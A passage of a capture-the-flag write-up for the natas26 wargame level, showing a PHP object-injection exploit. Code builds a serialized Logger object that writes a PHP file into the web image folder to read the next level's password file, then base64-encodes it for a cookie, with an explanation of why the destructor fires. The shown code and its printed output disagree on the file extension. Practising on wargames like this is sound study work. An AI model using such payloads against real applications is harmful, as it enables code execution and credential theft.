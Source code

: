 [https://www.php.net/manual/en/language.oop5.serialization.php](https://www.php.net/manual/en/language.oop5.serialization.php)

```php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        $this->initMsg="heyyyyyy\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile= "/var/www/natas/natas26/img/n0j.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbjBqLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjk6ImhleXl5eXl5CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
php > exit
@0fb5bda9f64c:/#
echo "Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbjBqLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjk6ImhleXl5eXl5CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=" | base64 -d
O:6:"Logger":3:{s:15:"LoggerlogFile";s:34:"/var/www/natas/natas26/img/n0j.txt";s:15:"LoggerinitMsg";s:9:"heyyyyyy
";s:15:"LoggerexitMsg";s:63:"<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>
";}
```

```text
Obviously the message we’re after is the password to natas27 so we grab that and load it into a variable. We know we can write to the img folder because that’s what the application does with legitimate images. We also know we’ll be able to read it back from there, again because that’s what the application does with legitimate images.
A note on how this works… why would we send a Logger object into a function that’s expecting arrays with coordinates and whatnot, doesn’t sound like that will work.
Short answer - it doesn’t work!

But the object is loaded into the $drawing variable so when its life ends the destructor will be called and that’s all we care about.
```

so basiclly, we overwrite the variables set in the logger class at a later stage in the script. We can do this since unserialize only loads the variables from classes into the application scope, not de the defination of the class it self when the object has been serialized.

We can overwrite these values since the cookie is used to send over the serialized data and we have full control over the cookie we send.

When deserializeing the cookie the entire cookie is added to \$drawing. This means our initMsg, exitMsg and logFile from our custom logger class are now loaded into the application scope and now have replaced the orginal values when the class was defined.
